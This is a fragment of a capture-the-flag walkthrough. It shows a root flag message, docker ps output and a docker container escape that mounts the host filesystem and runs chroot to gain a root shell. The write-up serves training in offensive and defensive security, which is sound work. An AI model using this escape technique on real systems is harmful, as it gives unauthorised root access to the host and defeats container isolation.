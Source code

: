 ### Root.txt

Inside */root* we have a *success.txt* file with following contents

```bash
47 you made it!!!

You have made it, Robert has been taught a lesson not to mess with ICA.
Now, Return to our Agency back with some safe route.
All the previous door's have been closed.

Good Luck Amigo!
```

Maybe a docker escape is what its talking about. After some fiddling around found a docker binary in /tmp directory. Checking the container name.

```bash
./docker ps
CONTAINER ID        IMAGE               COMMAND               CREATED             STATUS              PORTS                    NAMES
ec96850005d6        mangoman            "/usr/sbin/sshd -D"   9 months ago        Up 2 hours          127.0.0.1:2222->22/tcp   kronstadt_industries
```

Breaking out of docker instance.

```bash
./docker run -v /:/mnt --rm -it mangoman chroot /mnt sh
cd /root
cat root.txt
```
